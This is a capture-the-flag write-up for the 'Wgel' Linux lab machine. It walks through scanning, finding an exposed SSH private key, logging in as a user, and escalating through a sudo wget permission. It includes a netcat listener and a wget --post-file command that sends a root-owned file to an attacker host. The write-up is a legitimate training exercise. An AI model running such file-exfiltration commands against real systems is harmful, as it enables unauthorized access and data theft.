







# Wgel CTF - Write-up

This is an easy Linux machine. The goal is to obtain both the user and root flags.

# Initial Recon

After starting the machine and obtaining its IP address, the first step was to perform a port scan using Nmap:


The scan revealed that an HTTP service was running, so the next step was to enumerate the web server.

# Web Enumeration

Accessing the IP in the browser showed the default Apache2 Ubuntu page:


Although nothing useful appeared at first glance, checking the page source revealed a potential username:

```Jessie```


# Directory Brute Forcing

Using Gobuster to enumerate directories, a new endpoint was discovered:

```/sitemap```



This appeared to be the actual website. Running Gobuster again on this directory led to a critical finding:



```/sitemap/.ssh/id_rsa```

This file contained a private SSH key.



# Gaining Access (SSH)

The key was saved locally and its permissions were adjusted:

```chmod 600 id_rsa```

This is required because SSH refuses to use keys that are too permissive.

Using the key, it was possible to log into the system as the user:

```ssh -i id_rsa jessie@TARGET-IP```



# User Flag

After gaining access, the user flag was found in the Documents directory:



# Privilege Escalation

To escalate privileges, I checked the sudo permissions:

```sudo -l```

The result showed that the user **jessie** could run `wget` as root.



`Wget` is an open-source command-line utility used to retrieve content and download files from web servers.

# Root Flag

Since `wget` can send HTTP requests, it can be abused to exfiltrate files.

First, a listener was started on the attacker machine:

```nc -lvnp 8000```

Then, the root flag was sent using:

```sudo wget --post-file=/root/root_flag.txt http://ATTACKER-IP:8000```



The root flag was successfully captured.

# Conclusion:

This machine demonstrates how:

+ Misconfigured web directories can expose sensitive files
+ Private SSH keys can lead to initial access
+ Misconfigured sudo permissions can lead to privilege escalation

Even simple tools like `wget` can be dangerous when improperly configured.
